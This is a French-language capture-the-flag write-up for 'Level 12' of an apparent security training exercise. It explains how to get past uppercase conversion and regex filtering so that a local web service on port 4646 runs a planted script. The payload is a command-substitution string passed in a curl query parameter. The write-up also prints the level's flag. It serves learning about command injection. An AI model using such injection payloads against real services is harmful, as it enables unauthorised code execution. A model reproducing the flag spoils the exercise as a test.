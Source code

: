 # Level 12

## Recherche
---

il va falloir bypass les 2 regles de triage, celle qui remplace toute les minuscules par des majuscules, et celle qui va remplacer ce qu'il y a avant par ce qu'il faut (.*@gmail.com va trouver toutes les adresses finissant par @gmail.com) le . representant n'importe quel char, et le * repete l'operation autant de fois que necessaire.


la string dans le @output est entre des crochets d'execution, il faut donc remplacer le $XX part ce qu'on veut

on cree un fichier GETFLAG dans tmp pour coder ce script 

vim /tmp/GETFLAG

#!/bin/bash
/bin/getflag > /tmp/flag

et on le rend utilisable
chmod 777 /tmp/GETFLAG

premier test vraiment pas concluant. pour bypass le premier il faut directement tout penser en majuscule, partout dans les ajouts (pas comme apres)
curl 192.168.56.101:4646/x=`/tmp/GETFLAG`

mais comme ca 
curl localhost:4646/?x=/GETFLAG

le but c'est de faire en sorte qu'il exec notre script

dans la solution ci apres, l'utilisation des quotes permet de limiter et de signifier qu'il s'agit d'un seul element, l'etoile permet quand a elle de faire l'utilisation de wildcard, le programme va chercher partout un quelque chose qui s'appelle GETFLAG, peut importe ou il est

curl localhost:4646/?x='`/*/GETFLAG`'


pour finir, un cat /tmp/flag nous donnera le sesame

---
## Flag : g1qKMiRpXf53AWhDaU7FEkczr
---
## Sitographie

https://www.quennec.fr/trucs-astuces/syst%C3%A8mes/gnulinux/programmation-shell-sous-gnulinux/les-commandes-filtres/traitement-de-donn%C3%A9es/transformation-de-caract%C3%A8res-tr

https://unix.stackexchange.com/questions/583882/understanding-a-sed-command-sed-s-s-s-g

https://effective-shell.com/part-6-advanced-techniques/understanding-shell-expansion/#pathname-expansion



